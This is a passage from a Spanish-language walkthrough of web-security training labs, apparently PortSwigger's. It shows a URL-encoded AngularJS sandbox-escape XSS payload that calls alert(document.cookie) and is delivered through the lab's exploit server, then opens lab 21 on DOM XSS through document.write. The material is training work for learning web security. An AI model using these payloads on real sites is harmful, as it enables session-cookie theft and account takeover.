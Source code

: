 Payload

```
%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x
```

![](img46.png)

Luego vamos al Exploit Server, y enviamos el siguiente payload.

![](img47.png)

![](img48.png)

## 21. Lab: DOM XSS in document.write sink using source location.search

```
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the alert function.
```
